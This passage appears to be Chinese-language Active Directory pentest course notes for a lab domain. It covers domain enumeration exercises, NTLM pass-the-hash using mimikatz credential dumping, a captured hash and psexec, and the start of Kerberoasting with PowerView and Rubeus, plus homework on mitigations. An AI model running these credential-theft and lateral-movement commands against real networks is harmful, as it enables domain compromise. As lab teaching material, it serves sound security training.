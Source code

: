 1. 域中有多少台计算机以及它们在什么操作系统上运行？
1. 域中有多少用户？编写一个 powershell 语句进行查询，以表格形式列出所有用户，仅显示属性 samaccountname、displayname、description 和最后一次密码更改的时间。
1. 您能识别出哪些自定义的管理员组？以通用方式更改上面的 powershell 查询，使其仅返回自定义管理组。
1. 找到对应管理员组的成员，这些用户上一次设置密码是什么时候？
1. 有快速识别出域中服务帐户的简单方法吗？编写一个 powershell 查询，列出所有服务帐户。
<a name="XyLSV"></a>
## NTLM的利用

- mimikatz
- psexec

需要管理员权限，使用本地administrator用户登录
```bash
privilege::debug
token::elevate
lsadump::sam
```
获得到管理员hash<br />7dfa0531d73101ca080c7379a9bff1c7<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626697802826-2f436803-4a8f-4f41-a8b6-f114f7bf41b7.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=386581&status=done&style=none&width=1024)<br />pth攻击
```bash
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:wing.lab
```
<a name="q19lT"></a>
## ![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626698332861-a89b732e-0116-413c-a38c-e7d699a2c439.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=275589&status=done&style=none&width=1024)
```bash
psexec.exe \\user2 cmd
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626699920674-0011f151-5db0-45dd-a43c-e41b19547600.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=390584&status=done&style=none&width=1024)
<a name="OuCaO"></a>
### 课后习题


1. mimikatz 执行"privilege::debug"和"token::elevate"的目的是什么？为什么需要执行它们？
1. 以 Bruce Lee 的身份登录 user1。使用您在上面学到的知识帮助 john 从内存中远程提取 Bruce Lee的 NTLM 哈希。
1. 如何尽可能的缓解PTH攻击，请讲清楚原因。
1. 是否有可能（并且可行）完全禁用 NTLM？解释你的理由。
<a name="SSXtB"></a>
## Kerberos-Roasting
预习资料[域渗透——AS-REP Roasting](https://www.4hou.com/posts/YVyM)<br />加载插件
```bash
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```
查询SPN，获得服务用户
```bash
Get-DomainUser -SPN | select samaccountname, description, pwdlastset, serviceprincipalname
```
<a name="6J22I"></a>
## ![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626701732394-5112a647-db90-4d98-bdcf-8479a17a48a1.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=347932&status=done&style=none&width=1024)
Rubeus有一个统计kerberos数据的功能